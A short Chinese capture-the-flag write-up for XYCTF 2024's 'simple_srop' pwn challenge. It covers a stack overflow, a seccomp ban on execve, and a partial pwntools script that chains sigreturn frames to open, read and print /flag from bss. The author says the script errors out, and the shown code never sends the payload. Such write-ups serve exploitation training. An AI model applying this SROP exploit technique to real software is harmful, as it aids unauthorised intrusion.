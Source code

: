 ### simple_srop（XYCTF 2024）
![](/images/56e4f8c494d4891b4b3be70a851546b5.png)

![](/images/63a3c2103987edf8c61500a1e15443da.png)

![](/images/cbfd43cdcf9755a2de882ae592de5a10.png)

没有 canary，程序就一个大大的 read，还读了 0x200 个字节，超级大溢出（

![](/images/03ee84ef671251f8d90f5406c4ac5553.png)

看函数表第一眼想到 orw 和 SROP，

![](/images/012275085f49db400245b32fc5fce80e.png)

限制了系统调用不能调用 execve（一直不知道这个 322 是怎么来的，系统调用号没这么大的啊...）

想着是不是用 SROP 实现 orw 来获得 flag

但是程序的 read 没办法知道写入的地址，想着先用第一个 sigreturn 调用 read 在 bss 段这个地址已知的内存写进接下来的 SROP 链

read 要得有个内存地址存 flag 进去，考虑 bss 段

看了看 pwntools 生成的 sigreturnframe 的长度，好像是固定 248 个字节，

好像可以利用这个长度算出来填进 bss 段的不同 sigreturnframe 的偏移，来实现多次 sigreturn

exp ，但是因为报错搞半天不知道怎么改

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# link=remote("",)
link=process("./vuln")

bss=0x404100
syscall=p64(0x40129D)
sigreturn=p64(0x401292)

write_frame=SigreturnFrame()
write_frame.rax=constants.SYS_write
write_frame.rdi=1 #标准输出
write_frame.rsi=bss+0x400 #读到的flag存在这里
write_frame.rdx=0x50 #输出长度
write_frame.rip=syscall

read_frame2=SigreturnFrame()
read_frame2.rax=constants.SYS_read
read_frame2.rdi=3 #文件描述符
read_frame2.rsi=bss+0x400 #读到的flag存在这里
read_frame2.rdx=0x100 #读取长度
read_frame2.rsp=bss+0x208 #write
read_frame2.rip=syscall

open_frame=SigreturnFrame()
open_frame.rax=constants.SYS_open
open_frame.rdi=bss
open_frame.rsi=0
open_frame.rsp=bss+0x108 #read
open_frame.rip=syscall

bss_stack=b'/flag\x00\x00\x00'+sigreturn+bytes(open_frame)+sigreturn+bytes(read_frame2)+sigreturn+bytes(write_frame)
```